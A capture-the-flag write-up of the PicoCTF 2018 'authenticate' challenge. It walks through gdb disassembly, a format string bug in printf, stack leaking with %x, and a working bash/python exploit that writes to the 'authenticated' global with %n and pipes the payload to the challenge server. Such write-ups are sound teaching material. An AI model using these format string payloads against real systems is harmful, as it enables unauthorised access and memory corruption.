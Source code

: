 # Write-up for shellcode challenge
# PicoCTF_2018: authenticate

**Category:** Binary Exploitation
**Points:** 350

>Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.

> # Introduction
In this write-up we're gonna perform a format string attack. I shall show it with ASLR disabled.(See what ASLR is [here](https://github.com/giannoulispanagiotis/picoCTF-2018-wiretup/tree/master/got2learnlibc#aslr))

> # Vulnerability

As I said before, in this challenge Ι'm going to present to you a format string attack. And, what is that? You'll find soon.
First of all, let's disassemble our binary with gdb to see if we can find a vulnerability to exploit.

```asm
Dump of assembler code for function main:
=> 0x0804871d <+0>:	lea    ecx,[esp+0x4]
   0x08048721 <+4>:	and    esp,0xfffffff0
   0x08048724 <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048727 <+10>:	push   ebp
   0x08048728 <+11>:	mov    ebp,esp
   0x0804872a <+13>:	push   ecx
   0x0804872b <+14>:	sub    esp,0x64
   0x0804872e <+17>:	mov    eax,ecx
   0x08048730 <+19>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048733 <+22>:	mov    DWORD PTR [ebp-0x5c],eax
   0x08048736 <+25>:	mov    eax,gs:0x14
   0x0804873c <+31>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804873f <+34>:	xor    eax,eax
   0x08048741 <+36>:	mov    eax,ds:0x804a044
   0x08048746 <+41>:	push   0x0
   0x08048748 <+43>:	push   0x2
   0x0804874a <+45>:	push   0x0
   0x0804874c <+47>:	push   eax
   0x0804874d <+48>:	call   0x8048520 <setvbuf@plt>
   0x08048752 <+53>:	add    esp,0x10
   0x08048755 <+56>:	call   0x80484e0 <getegid@plt>
   0x0804875a <+61>:	mov    DWORD PTR [ebp-0x50],eax
   0x0804875d <+64>:	sub    esp,0x4
   0x08048760 <+67>:	push   DWORD PTR [ebp-0x50]
   0x08048763 <+70>:	push   DWORD PTR [ebp-0x50]
   0x08048766 <+73>:	push   DWORD PTR [ebp-0x50]   
   0x08048769 <+76>:	call   0x8048540 <setresgid@plt>
   0x0804876e <+81>:	add    esp,0x10
   0x08048771 <+84>:	sub    esp,0xc
   0x08048774 <+87>:	push   0x8048968
   0x08048779 <+92>:	call   0x80484f0 <puts@plt>
   0x0804877e <+97>:	add    esp,0x10
   0x08048781 <+100>:	mov    eax,ds:0x804a040
   0x08048786 <+105>:	sub    esp,0x4
   0x08048789 <+108>:	push   eax
   0x0804878a <+109>:	push   0x40
   0x0804878c <+111>:	lea    eax,[ebp-0x4c]
   0x0804878f <+114>:	push   eax
   0x08048790 <+115>:	call   0x80484c0 <fgets@plt>
   0x08048795 <+120>:	add    esp,0x10
   0x08048798 <+123>:	sub    esp,0x8
   0x0804879b <+126>:	push   0x8048992
   0x080487a0 <+131>:	lea    eax,[ebp-0x4c]
   0x080487a3 <+134>:	push   eax
   0x080487a4 <+135>:	call   0x80484a0 <strstr@plt>
   0x080487a9 <+140>:	add    esp,0x10
   0x080487ac <+143>:	test   eax,eax
   0x080487ae <+145>:	je     0x80487ca <main+173>
   0x080487b0 <+147>:	sub    esp,0xc
   0x080487b3 <+150>:	push   0x8048995
   0x080487b8 <+155>:	call   0x80484f0 <puts@plt>
   0x080487bd <+160>:	add    esp,0x10
   0x080487c0 <+163>:	sub    esp,0xc
   0x080487c3 <+166>:	push   0x1
   0x080487c5 <+168>:	call   0x8048500 <exit@plt>
   0x080487ca <+173>:	sub    esp,0x8
   0x080487cd <+176>:	push   0x80489a6
   0x080487d2 <+181>:	lea    eax,[ebp-0x4c]
   0x080487d5 <+184>:	push   eax
   0x080487d6 <+185>:	call   0x80484a0 <strstr@plt>
   0x080487db <+190>:	add    esp,0x10
   0x080487de <+193>:	test   eax,eax
   0x080487e0 <+195>:	jne    0x8048801 <main+228>
   0x080487e2 <+197>:	sub    esp,0xc
   0x080487e5 <+200>:	push   0x80489aa
   0x080487ea <+205>:	call   0x80484f0 <puts@plt>
   0x080487ef <+210>:	add    esp,0x10
   0x080487f2 <+213>:	sub    esp,0xc
   0x080487f5 <+216>:	lea    eax,[ebp-0x4c]
   0x080487f8 <+219>:	push   eax
   0x080487f9 <+220>:	call   0x80484b0 <printf@plt>
   0x080487fe <+225>:	add    esp,0x10
   0x08048801 <+228>:	call   0x80486e4 <read_flag>
   0x08048806 <+233>:	mov    eax,0x0
   0x0804880b <+238>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804880e <+241>:	xor    edx,DWORD PTR gs:0x14
   0x08048815 <+248>:	je     0x804881c <main+255>
   0x08048817 <+250>:	call   0x80484d0 <__stack_chk_fail@plt>
   0x0804881c <+255>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804881f <+258>:	leave  
   0x08048820 <+259>:	lea    esp,[ecx-0x4]
   0x08048823 <+262>:	ret    
End of assembler dump.
```

Hmm, at first sight we can't find something wrong in this code (there is not gets here, fgets is safe unfortunately).But, running the code we notice that **0x080487f9 <+220>:	call   0x80484b0 <printf@plt>** takes only one argument (our input specifically).

![Screenshot from 2019-10-11 21-26-50](https://user-images.githubusercontent.com/37578272/66675391-e93a1900-ec6d-11e9-9478-c202105cd70b.png)

So, if our input is hello_world (like above) everything is gonna be alright:
printf("hello_world") gives us hello_world.
Think about it for minute before you see the solution.

If we parse as an argument something like "%d %d %d %d", what's going to happen?

![Screenshot from 2019-10-11 21-36-56](https://user-images.githubusercontent.com/37578272/66677578-9c0c7600-ec72-11e9-84a7-370eb777c5b6.png)
We see some random numbers. printf("%d %d %d %d") will search for addresses of 4 variables to print 4 integers.
However, we haven't parsed 2nd argument inside printf, hence the integers that it prints are some numbers in the stack. Same thing happens with "%x %x %x %x" and now we get some hex values:

![Screenshot from 2019-10-11 21-37-10](https://user-images.githubusercontent.com/37578272/66677581-9d3da300-ec72-11e9-9e37-d96a8c2dba01.png)


Where in the stack are those hex values? We're gonna find soon. But first, we didn't say how we are going to get this flag. 
Let's examine read_flag function.

```asm
Dump of assembler code for function read_flag:
   0x080486e4 <+0>:	push   ebp
   0x080486e5 <+1>:	mov    ebp,esp
   0x080486e7 <+3>:	sub    esp,0x8
   0x080486ea <+6>:	mov    eax,ds:0x804a04c
   0x080486ef <+11>:	test   eax,eax
   0x080486f1 <+13>:	jne    0x8048705 <read_flag+33>
   0x080486f3 <+15>:	sub    esp,0xc
   0x080486f6 <+18>:	push   0x8048934
   0x080486fb <+23>:	call   0x80484f0 <puts@plt>
   0x08048700 <+28>:	add    esp,0x10
   0x08048703 <+31>:	jmp    0x804871a <read_flag+54>
   0x08048705 <+33>:	sub    esp,0xc
   0x08048708 <+36>:	push   0x8048958
   0x0804870d <+41>:	call   0x80484f0 <puts@plt>
   0x08048712 <+46>:	add    esp,0x10
   0x08048715 <+49>:	call   0x804865b <flag>
   0x0804871a <+54>:	nop
   0x0804871b <+55>:	leave  
   0x0804871c <+56>:	ret    
End of assembler dump.
```
In this instruction: **0x080486ea <+6>:	mov    eax,ds:0x804a04c**  we notice an address(data segment). 0x804a04c is an address of a global variable called authenticated. Authenticated is initialized to zero. We then see, **test eax, eax**.
So, if we  modify authenticated variable, we will call flag function, which would give us the flag.
How can we modify it?

We know the address of variable (This instruction is hardcoded which means that authenticated variable will always be on this address, and this makes it easier for us--ASLR is disabled--), and we know that printf is a vulnerable function right now.

Have you ever heard about %n inside printf? 
Man page of printf tells us about %n:
![Screenshot from 2019-10-11 21-11-58](https://user-images.githubusercontent.com/37578272/66677231-da556580-ec71-11e9-8dbe-57f6fb354c97.png)

Ohhh that's too serious. "%n" let us write things in memory. For example:

printf("Hello World%n", var): writes to variable var length of Hello World (11). Here, we don't have second argument, if we could find where in the stack were those printed values we saw above, with fgets we could parse the address of authenticated and with %n we could write to it. 

Let's test as input this: AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x.

![Screenshot from 2019-10-11 22-03-26](https://user-images.githubusercontent.com/37578272/66677735-fad1ef80-ec72-11e9-90ea-0d592a15c845.png)

We hitted the A's of our input and the first %x (0x782520-->ascii code of %x). So, if we change first 4 A's with variable's address and decrease %x's by 2 the last hex value will be the address.

```bash
python -c 'print "\x4c\xa0\x04\08" + "AAAA" + "%x "*11' | ./auth
```
![Screenshot from 2019-10-11 22-18-43](https://user-images.githubusercontent.com/37578272/66678683-1fc76200-ec75-11e9-988c-cf28b3053e14.png)

And it's true. Therefor, we change the last "%x" with a "%n". So in the address: 0x0804a04c %n will print length of \x4c\xa0\x04\08AAAA"%x "*10. Autenticated will be modified and we'll get the flag. Let's do it. 

Our exploit:
```bash
#!/bin/bash 
 
python -c 'print "\x4c\xa0\x04\x08" + "AAAA" +  "%x "*10 + "%n"' > payload 
 
cat payload | nc 2018shell.picoctf.com 52918 | tail -1  
```

Congrats, we got our flag. See you in the next challenge.





